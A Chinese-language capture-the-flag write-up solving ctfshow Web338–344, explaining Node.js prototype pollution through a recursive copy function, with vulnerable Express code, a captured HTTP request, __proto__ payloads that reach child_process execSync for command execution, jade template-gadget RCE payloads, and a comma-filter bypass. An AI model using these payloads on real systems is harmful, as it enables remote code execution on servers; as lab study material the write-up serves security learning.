

# 写在前面

图片如果不是科学上网，可能由于网速原因看不见，如果需要看图可以点击图片链接

# Web338

首先从入口文件看起，`app.js`，发现两个关键路径

```javascript
app.use('/', indexRouter);
app.use('/login', loginRouter);
```

当然主页就不用看了，直接看关键部分，login，从当中我们不难得出需要让`secert.ctfshow==='36dboy'`即可获取flag，这里很简单，原型链污染嘛

```javascript
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  } 
});
```

其中涉及到这一部分的利用函数就是`copy`，这是一个递归调用函数，for循环遍历object2当中的key(键)，如果这个键在object1与object2当中都存在，则调用`copy(object1[key], object2[key])`,否则让`object1[key] = object2[key]`

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

那如果我们让`object2`为`{"__proto__":{"ctfshow":"36dboy"}}`会发生什么（注意本题当中object1为secret变量）

由于`object1和object2`的对象都具有属性`__proto__`,进入if语句为true，执行

`copy(object1[__proto__], object2[__proto__])`

此时`let key in object2`的`key`为`ctfshow`很明显object1当中没有，所以进入else部分

`object1[ctfshow] = object2[ctfshow]`，成功赋值为`36dboy`

Burpsuite发送请求包即可获取flag

```
POST /login HTTP/1.1
Host: 4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Content-Length: 34
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Content-Type: application/json
Origin: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Referer: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176b20985423e8-07d414625df175-3323765-144000-176b209854358f
Connection: close

{"__proto__":{"ctfshow":"36dboy"}}
```


# Web339

这道题开始麻烦起来了，先来分析思路，首先列出本题利用所需要的关键代码

首先是login.js

```
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

之后是api.js

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});
module.exports = router;
```

我们发现在api.js当中`Function里的query变量没有被引用`，如果我们能够通过原型污染攻击给它赋任意我们想要的值会怎样？？岂不是可以随意执行代码进行RCE了

首先给出我的payload吧，当然嫌麻烦的话里面可以搞成反弹shell的，看自己

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('cat routes/login.js');"}}
```

通过调试我发现污染到了this,在nodejs当中其指向module.exports，最外层调用的时候会指向global，具体原因还不知道，未来希望能够破解，暂时水平受限，反正看到query到了全局变量里面



之后我们前往`url/api`界面发起post包即可获得flag

# Web342-343

这是我的exp，过程不讲自己研究

```php

{"__proto__":{"__proto__": {"type":"Code","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );jade_debug.unshift(new jade.DebugItem(0"}}}

{"__proto__":{"__proto__": {"type":"MixinBlock","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );//"}}}

{"__proto__":{"__proto__": {"type":"Doctype","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );//"}}}

{"__proto__":{"__proto__": {"type":"Doctype","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('calc');//"}}}
```


# Web344

代码审计，需要query当中的name，password与isVIP符合条件，本来传入`query={"name":"admin","password":"ctfshow","isVIP":true}`即可但是这道题过滤了2c也就过滤了`%2c(逗号)`(req.url获取的值是url编码后的所以逗号会变成%2c)

```
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }
});
```

Nodejs的一个小特性吧，这样他会把三个部分拼接在一起，这样也就满足了题目的条件也得到了flag

```
由于"的url编码为%22与c又合成了2c所以c需要编码
query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

